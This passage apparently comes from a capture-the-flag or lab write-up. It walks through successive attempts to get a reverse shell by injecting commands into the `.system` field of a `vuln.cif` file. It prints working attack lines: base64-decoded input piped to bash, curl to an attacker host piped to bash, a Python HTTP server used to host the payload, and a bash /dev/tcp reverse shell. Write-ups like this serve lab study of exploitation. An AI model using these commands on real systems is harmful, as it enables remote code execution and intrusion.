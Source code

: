 Update `.system` in `vuln.cif` payload:
```
.system ("echo <base64_payload> | base64 -d | bash")
```
**Result**: No shell received ❌

### Attempt 3.1: Using Curl
Modify `.system` in `vuln.cif`:
```
.system ("curl http://<local ip addr>:<port>/attack")
```
Start a listener on our attack machine:
```
python3 -m http.server 1111
```
![Curl result](./images/5.png)

**Result**: Curl request successful ✅, but no shell yet ❌

### Attempt 3.2: Using Curl to Reverse Shell
Modify `.system` in `vuln.cif`:
```
.system ("curl http://<local ip addr>:<port number for hosted machine directory>/atk | bash")

example:
.system ("curl http://<local ip addr>:1111/atk | bash")
```
**Note**: Set the directory that will be curled by the victim machine\
Set payload inside `atk` file that will be curled:
```
bash -i >& /dev/tcp/<local ip addr>/<listening port number> 0>&1

example:
bash -i >& /dev/tcp/<local ip addr>/1234 0>&1
```
![Setup atk payload](./images/6.png)
